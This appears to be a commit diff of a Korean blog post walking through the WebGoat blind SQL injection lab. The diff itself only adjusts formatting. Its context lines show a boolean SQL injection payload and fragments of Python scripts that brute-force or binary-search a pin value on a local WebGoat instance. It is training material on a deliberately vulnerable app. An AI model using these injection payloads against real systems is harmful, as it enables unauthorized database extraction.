

Before and after one commit to pil9/pil9.github.io, a Jekyll site: the page built from _posts/2020-04-22-webgoat-blind-sql-injection.md, in a window 1280 px wide and 1400 px high, scrolled down 354 px. Shown: the whole window at 99% size, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded.

Commit message:
post update

```diff
--- a/_posts/2020-04-22-webgoat-blind-sql-injection.md
+++ b/_posts/2020-04-22-webgoat-blind-sql-injection.md
@@ -15,36 +15,34 @@
 ---
 
 ![problem]({{site.url}}/images/blind_p.png){: class="center"}
-<figcaption class="caption">문제</figcaption>
-
-
+<figcaption class="caption">Blind sql injection 문제</figcaption>
+<br>
 pins DB 테이블에서 cc_number가 '1111222233334444'인 pin 값을 찾는 문제입니다.
 
 문제에서 사전에 주어진 정보는 테이블명(pins), 필드명(cc_number), 101 입니다.
-
+<BR>
 ![problem]({{site.url}}/images/p2.png){: class="center"}
 <figcaption class="caption">유효 pin값은 101부터</figcaption>
-
+<br>
 위와 같이 쿼리에 논리식 대입이 가능하므로 출력되는 결과값을 기준으로 pin 값을 유추해 내면 됩니다.
 
 결과값으로 'Invalid account number'가 출력되면 조건식이 맞지 않는 것을 알 수 있습니다.
 
 가장 먼저 pin값 자리수를 유추해야 하므로 100, 1000, 10000 등의 단위로 아래의 쿼리값을 반복해서 확인합니다.
 
-<pre><code class = "language-sql">
-예시)
+<pre><code class = "language-sql">예시)
 101 and (select pin from pins where cc_number = '1111222233334444' > 1000)
 </code></pre>
 
 pin 값이 1000보다 클 경우에는 'Account number is valid'
+
 10000보다 클 경우에는 'Invalid account number' 가 출력되므로
 
 조건식을 만족하는 pin 값의 범위는 1000 < pin < 10000 임을 유추할 수 있습니다.
 
 약 9천개의 쿼리값을 다 날려볼 수는 없으므로 아래와 같은 exploit 코드를 작성하여 flag 값을 얻을 수 있습니다.
 
-<pre><code class = "language-python">
-import requests
+<pre><code class = "language-python">import requests
 
 cookie = {'JSESSIONID':"C665F3601E7F6DE3D7F0FBB35EDE83C5"}
 url = "http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100"
@@ -61,15 +59,13 @@
         exit()
 </code></pre>
 
-<pre><code class="language-python">
-//결과 값
+<pre><code class="language-python">//결과 값
 Account Number: 2364
 </code></pre>
 
 추가로 flag값의 범위가 클 경우 위와 같은 코드로는 시간이 오래 걸리므로 아래 코드와 같이 이진 탐색등의 탐색 알고리즘을 사용하여 작성하시면 됩니다.
 
-<pre><code class="language-python">
-import requests
+<pre><code class="language-python">import requests
 
 # 이진 탐색 알고리즘을 통한 flag 탐색 함수
 def search(pin_data):
@@ -125,7 +121,6 @@
 
 </code></pre>
 
-<pre><code class="language-python">
-//결과값
+<pre><code class="language-python">//결과값
 AC Number: 2364
 </code></pre>
```
